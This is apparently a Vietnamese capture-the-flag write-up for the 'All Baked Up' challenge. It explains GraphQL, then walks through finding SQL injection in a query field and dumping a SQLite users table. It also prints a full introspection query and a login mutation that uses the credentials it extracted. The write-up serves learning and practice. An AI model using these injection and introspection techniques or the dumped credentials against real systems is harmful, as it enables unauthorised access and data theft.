










## GraphQL
Vì challenge này liên quan đến graphql và mình chưa biết về cái này nên sẽ mô tả qua ở đây một chút. GraphQL là ngôn ngữ truy vấn cho các API và runtime để thực hiện các truy vấn đó với dữ liệu. Nghĩa là người dùng sẽ tương tác với API thông qua graphql



Mục đích của graphql là tạo ra một endpoint đơn giản dễ hiểu dễ sử dụng để handle tất cả các endpoint phức tạp còn lại. Về operation trong graphql có hai kiểu chính là query và mutation. Ở đây query tương đương với câu lệnh select bình thường, trong khi đó mutation thường thực hiện các thao tác thay đổi bên trong dữ liệu (create, update, delete). Để dễ hình dung thì ý tưởng của query và mutation tương đương với get, post về mặt convention.  

## Solve challenge
All Baked Up là một trang web được dùng để lưu giữ các công thức làm bánh. Chức năng chỉ dừng lại ở trang liệt kê danh sách và truy cập cụ thể vào công thức của từng loại bánh.



Phân tích các request của nó



Vậy là trang web sử dụng công nghệ graphql để thực hiện truy vấn. Phân tích qua một chút về payload trong request của bài này



Truy vấn được thực hiện có tên là UserQuery, kiểu truy vấn là Query. Bên trong truy vấn thực hiện lấy post thông qua việc kiểm tra thuộc tính name. Bây giờ thử detect sqli xem thế nào, ở đây mình thử detect trong trường name bằng dấu '



Kết quả trả về lỗi sql, như vậy có thể thực hiện sqli ở trường này, tiếp tục sqli với union mình thu được 



Vậy có thể retrieve dữ liệu thông qua các vị trí 2,3,4,6. Tiếp theo là bước SQLi đơn giản mình xin phép lướt qua. Kết quả mình đạt được là trang web sử dụng cơ sở dữ liệu SQLite, có hai table là users và posts. Bên trong posts không có gì hay ho vì đã hiển thị hên lên giao diện người dùng rồi. Kiểm tra users thì thấy có một user duy nhất là tên của tác giả bài này.



Như vậy mình đã có được thông tin đăng nhập của một user, tuy nhiên trang đăng nhập ở đâu ??????. Sau đó mình sử dụng công cụ Gobuster để kiểm tra các endpoint, tuy nhiên không có bất kỳ endpoint nào cho việc đăng nhập. Để ý kỹ thì trong request của mình có trường session, decode ra thấy thông tin đăng nhập là guest, hẳn là phải có một cách thức đăng nhập nào đó. 

Sau đó mình tìm kiếm các lỗi graphql trên mạng, và tìm thấy có thứ gọi là ***__schema***. Đây là một system type chứa các thông tin về query cũng như mutation (tương tự information_schema của Mysql). Ăn sẵn bê luôn payload trên mạng vào 🙏.

```
"query":"query UserQuery {\n__schema{\nqueryType{\nname\n}mutationType{\nname\n}subscriptionType{\nname\n}types{\n...FullType\n}directives{\nname description locations args{\n...InputValue\n}\n}\n}\n}fragment FullType on __Type{\nkind name description fields(includeDeprecated:true){\nname description args{\n...InputValue\n}type{\n...TypeRef\n}isDeprecated deprecationReason\n}inputFields{\n...InputValue\n}interfaces{\n...TypeRef\n}enumValues(includeDeprecated:true){\nname description isDeprecated deprecationReason\n}possibleTypes{\n...TypeRef\n}\n}fragment InputValue on __InputValue{\nname description type{\n...TypeRef\n}defaultValue\n}fragment TypeRef on __Type{\nkind name ofType{\nkind name ofType{\nkind name ofType{kind name ofType{\nkind name ofType{\nkind name ofType{\nkind name ofType{\nkind name\n}\n}\n}\n}\n}\n}\n}\n}\n"
```

Kết của trả về chứa các query và mutation được hỗ trợ, ở đây mình tìm thấy một query để lấy flag

```json
{
    "args": [

    ],
    "deprecationReason": null,
    "description": "",
    "isDeprecated": false,
    "name": "flag",
    "type": {
        "kind": "SCALAR",
        "name": "String",
        "ofType": null
    }
}
```

Thử luôn xem lấy được flag không



Vậy là bắt buộc phải đăng nhập và lấy được token. Tiếp tục tìm kiếm bên trong __schema, mình tìm thấy một mutation xác thực user

```json
{
    "args": [{
            "defaultValue": null,
            "description": "",
            "name": "username",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "SCALAR",
                    "name": "String",
                    "ofType": null
                }
            }
        },
        {
            "defaultValue": null,
            "description": "",
            "name": "password",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "SCALAR",
                    "name": "String",
                    "ofType": null
                }
            }
        }
    ],
    "deprecationReason": null,
    "description": "",
    "isDeprecated": false,
    "name": "authenticateUser",
    "type": {
        "kind": "OBJECT",
        "name": "Auth",
        "ofType": null
    }
}
```

Từ thuộc tính type mình biết được mutation này trả về object kiểu Auth, ngay dưới mutation này có mô tả về type Auth

```json
{
    "description": "Auth info for a user",
    "enumValues": null,
    "fields": [{
            "args": [

            ],
            "deprecationReason": null,
            "description": "The token",
            "isDeprecated": false,
            "name": "token",
            "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
            }
        },
        {
            "args": [

            ],
            "deprecationReason": null,
            "description": "The user",
            "isDeprecated": false,
            "name": "user",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "OBJECT",
                    "name": "User",
                    "ofType": null
                }
            }
        }
    ],
    "inputFields": null,
    "interfaces": [

    ],
    "kind": "OBJECT",
    "name": "Auth",
    "possibleTypes": null
}
```

Bên trong Auth có trường token. Túm váy lại, mình sẽ tạo mutation và truyền vào username và password sau đó lấy token từ response cho việc xác thực. Payload cuối cùng để đăng nhập như sau

```json
{
    "operationName":"UserMutation",
    "variables":{
        "username":"congon4tor",
        "password":"n8bboB!3%vDwiASVgKhv"
    },
    "query":"mutation UserMutation($username:String!, $password:String!) {\nauthenticateUser(username:$username, password:$password){\ntoken\n}\n}\n"
}
```



Lấy được token rồi, quay lại lấy flag thôi. Thêm header Authorization vào request.




